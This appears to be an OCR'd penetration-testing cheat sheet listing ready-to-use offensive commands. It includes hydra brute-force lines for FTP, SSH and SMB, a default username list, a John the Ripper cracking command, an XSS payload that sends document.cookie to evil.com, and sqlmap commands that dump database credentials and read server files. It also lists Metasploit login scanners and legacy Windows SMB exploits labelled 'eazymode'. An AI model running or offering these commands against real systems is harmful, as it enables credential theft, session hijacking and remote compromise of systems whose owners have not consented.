 | **Command** | **Description** |
| :--- | :--- |
| hydra -L users -P passwords -M 21.txt ftp | Brute ftp |
| hydra -L users -P passwords -M 22.txt ssh | Brute ssh |
| hydra -L users -P passwords -M 445.txt smb | Brute smb |

| **User List** |
| :--- |
| Root |
| Admin |
| Administrator |
| Manager |
| Crest |
| Crt |
| User |

**  
 PASSWORD CRACKING**

| **Command** | **Description** |
| :--- | :--- |
| john --wordlist=/usr/share/wordlists/rockyou.txt hashes | JTR default |

**WEB APP**

| **Command** | **Description** |
| :--- | :--- |
| document.write\('&lt;img src="[http://evil.com/x.gif?cookie=](http://evil.com/x.gif?cookie=)' + document.cookie + '" /&gt;\) | XSS steal cookie |
| sqlmap -u &lt;target&gt; -p PARAM --data=POSTDATA --cookie=COOKIE --level=3 --current-user --current-db --passwords --file-read="/var/www/test.php" | Targeted scan |
| sqlmap -u[http://example.com](http://example.com/)--forms --batch --crawl=10 --cookie=jsessionid=12345 --level=5 --risk=3 |  |

**METASPLOIT**

| **Command** | **Description** |
| :--- | :--- |
| use auxiliary/scanner/http/dir\_scanner | Scan for directories |
| use auxiliary/scanner/http/jboss\_vulnscan | JBoss scan |
| use exploit/multi/http/jboss\_maindeployer | JBoss deploy |
| use auxiliary/scanner/mssql/mssql\_login | MSSQL cred scan |
| use exploit/windows/mssql/mssql\_payload | MSSQL payload |
| use auxiliary/scanner/mysql/mysql\_version | MySQL version scan |
| use auxiliary/scanner/mysql/mysql\_login | MySQL login |
| use auxiliary/scanner/oracle/oracle\_login | Oracle login |
| use exploit/windows/dcerpc/ms03\_026\_dcom | eazymode |
| use exploit/windows/smb/ms06\_040\_netapi | eazymode |
| use exploit/windows/smb/ms08\_067\_netapi | eazymode |
| use exploit/windows/smb/ms09\_050\_smb2\_negotiate\_func\_index | eazymode |
| run post/windows/gather/win\_privs | Show privs of current user |